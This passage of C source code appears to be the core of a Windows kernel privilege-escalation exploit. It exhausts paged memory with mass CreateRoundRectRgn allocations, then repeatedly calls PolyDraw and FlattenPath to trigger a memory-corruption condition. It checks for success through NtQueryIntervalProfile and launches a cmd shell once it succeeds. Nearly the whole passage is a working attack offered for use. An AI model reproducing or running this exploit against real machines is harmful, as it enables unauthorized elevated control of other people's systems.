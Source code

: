     // Get a handle to this Desktop.
    Device = GetDC(NULL);

    // Take ownership of Mutex
    WaitForSingleObject(Mutex, INFINITE);

    // Spawn a thread to cleanup
    Thread = CreateThread(NULL, 0, WatchdogThread, NULL, 0, NULL);

    LogMessage(L_INFO, "Begin CreateRoundRectRgn cycle");

    // We need to cause a specific AllocObject() to fail to trigger the
    // exploitable condition. To do this, I create a large number of rounded
    // rectangular regions until they start failing. I don't think it matters
    // what you use to exhaust paged memory, there is probably a better way.
    //
    // I don't use the simpler CreateRectRgn() because it leaks a GDI handle on
    // failure. Seriously, do some damn QA Microsoft, wtf.
    for (Size = 1 &lt;&lt; 26; Size; Size &gt;&gt;= 1) {
        while (Regions[NumRegion] = CreateRoundRectRgn(0, 0, 1, Size, 1, 1))
            NumRegion++;
    }

    LogMessage(L_INFO, "Allocated %u HRGN objects", NumRegion);

    LogMessage(L_INFO, "Flattening curves...");

    for (PointNum = MAX_POLYPOINTS; PointNum &amp;&amp; !Finished; PointNum -= 3) {
        BeginPath(Device);
        PolyDraw(Device, Points, PointTypes, PointNum);
        EndPath(Device);
        FlattenPath(Device);
        FlattenPath(Device);

        // Test if exploitation succeeded.
        NtQueryIntervalProfile(ProfileTotalIssues, Interval);

        // Repair any damage.
        *Interval = SavedInterval;

        EndPath(Device);
    }

    if (Finished) {
        LogMessage(L_INFO, "Success, launching shell...", Finished);
        ShellExecute(NULL, "open", "cmd", NULL, NULL, SW_SHOW);
        LogMessage(L_INFO, "Press any key to exit...");
        getchar();
        ExitProcess(0);
    }

    // If we reach here, we didn't trigger the condition. Let the other thread know.
    ReleaseMutex(Mutex);
    WaitForSingleObject(Thread, INFINITE);
    ReleaseDC(NULL, Device);

    // Try again...
    LogMessage(L_ERROR, "No luck, run exploit again (it can take several attempts)");
    LogMessage(L_INFO, "Press any key to exit...");
    getchar();
    ExitProcess(1);
}
